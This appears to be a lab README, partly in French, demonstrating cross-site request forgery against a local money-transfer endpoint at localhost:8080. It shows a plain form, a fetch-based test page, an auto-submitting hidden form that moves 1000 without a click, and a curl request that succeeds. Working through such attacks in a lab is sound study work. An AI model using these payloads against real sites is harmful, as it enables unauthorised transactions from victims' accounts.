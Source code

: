 ### First Method with an simple interface
```
<form action="http://localhost:8080" method="POST">

<input type="number" name="amount" value="100"/>
<input type="submit" value="Transfer Money"/>
```
### Second Method with an interface more developped ! and the content-type but not really needed because in that case we have, 1. Error: NetworkError when attempting to fetch resource. and 2. Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://localhost:8080/transfer. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 200.

```
<!DOCTYPE html>
<html lang="fr">
<head>
<meta charset="UTF-8">
<title>Test CSRF Interactif</title>
</head>
<body>
<h2>Test CSRF / Transfer Interactif</h2>

<p>Entrez le montant que vous voulez tester :</p>

<form id="csrfForm">
  <label for="amount">Montant :</label>
  <input type="number" id="amount" name="amount" value="50" min="1"/>
  <input type="submit" value="Envoyer POST"/>
</form>

<h3>Résultat :</h3>
<pre id="result"></pre>

<script>
document.getElementById('csrfForm').addEventListener('submit', async function(e) {
    e.preventDefault(); // Empêche le rechargement de la page

    const amount = document.getElementById('amount').value;

    try {
        const response = await fetch('http://localhost:8080/transfer', {
            method: 'POST',
            headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
            body: new URLSearchParams({ amount })
        });

        const data = await response.json();
        document.getElementById('result').textContent = JSON.stringify(data, null, 2);
    } catch (err) {
        document.getElementById('result').textContent = 'Erreur: ' + err.message;
    }
});
</script>
</body>
</html>
```

### Third method it transfer the amount without clicking on the submit button
```
<form action="http://localhost:8080/transfer" method="POST">
  <input type="hidden" name="amount" value="1000"/>
</form>
<script>
  document.forms[0].submit();
</script>
```

### Bonus method you only have to send this request with curl and bingo.
```
curl -X POST http://localhost:8080/transfer -d "amount=1000"

return value {"success":true}. So we can see the POST request has been accepted.
```
